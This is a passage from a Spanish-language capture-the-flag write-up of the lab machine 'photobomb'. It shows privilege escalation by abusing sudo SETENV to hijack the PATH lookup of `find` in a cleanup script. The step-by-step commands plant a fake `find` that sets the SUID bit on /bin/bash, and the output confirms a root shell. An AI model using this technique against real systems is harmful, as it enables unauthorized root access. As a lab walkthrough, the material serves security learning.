 ```bash
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```

Este script de Bash realiza las siguientes tareas:

1. **Carga configuraciones** desde un archivo `.bashrc`.
2. **Cambia al directorio** `/home/wizard/photobomb`.
3. **Gestiona un archivo de log**, archivando su contenido si no está vacío y luego lo vacía.
4. **Protege archivos JPEG** en el directorio `source_images` cambiando su propietario a `root`.

## Path Hijacking -> Abusing `SETENV`

Vemos que se hace una llamada relativa al binario `find` 

Y como tenemos el control sobre las variables de entorno gracias a `SETENV` significa que podríamos secuestrar el binario de `find` para ejecutar un comando a nivel de sistema como el usuario `root`

Vamos a crear un archivo en `/tmp` llamado `find` el cual será un simple script que establece el bit SUID de `/bin/bash` para poder lanzarnos una `bash` como `root`
```console
(remote) wizard@photobomb:/tmp$ cat find 
#!/bin/bash

chmod u+s /bin/bash
```

Le damos permiso de ejecución.
```console
(remote) wizard@photobomb:/tmp$ chmod +x find 
```

Ahora si ejecutamos como `root` el script pero estableciendo la variable de entorno `PATH` para que primero busque binarios en `/tmp` y luego en los directorios que ya estaba definido 
anteriormente...
```console
(remote) wizard@photobomb:/opt$ sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

```console
(remote) wizard@photobomb:/opt$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1183448 Apr 18  2022 /bin/bash
```

Y ya podemos conseguir una consola como `root` lanzando una `bash` con el parámetro `-p`
```console
(remote) root@photobomb:/opt# id
uid=1000(wizard) gid=1000(wizard) euid=0(root) groups=1000(wizard)
```

Y vemos que el EUID es 0 (root)

Podemos leer la flag de root
```console
(remote) root@photobomb:/root# cat root.txt 
9dac3e4917e20d...
```

¡Y ya estaría!

Happy Hacking! 🚀